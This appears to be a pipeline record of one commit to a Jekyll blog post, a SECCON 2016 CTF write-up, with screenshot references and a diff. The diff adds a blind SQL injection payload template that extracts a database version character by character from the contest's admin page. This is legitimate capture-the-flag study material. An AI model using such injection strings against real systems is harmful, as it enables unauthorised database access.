

Before and after one commit to st98/diary, a Jekyll site: the page built from _posts/2016-12-11-seccon-2016-online.md, in a window 1280 px wide and 900 px high, scrolled down 1357 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
載せてたコードをちょっと修正

```diff
--- a/_posts/2016-12-11-seccon-2016-online.md
+++ b/_posts/2016-12-11-seccon-2016-online.md
@@ -42,6 +42,7 @@
   return c == 200
 
 url = 'http://basiq.pwn.seccon.jp/admin/'
+query = "' and 0 or substr(version(), {}, 1) <= binary 0x{:x};#"
 
 i = 1
 res = ''
```
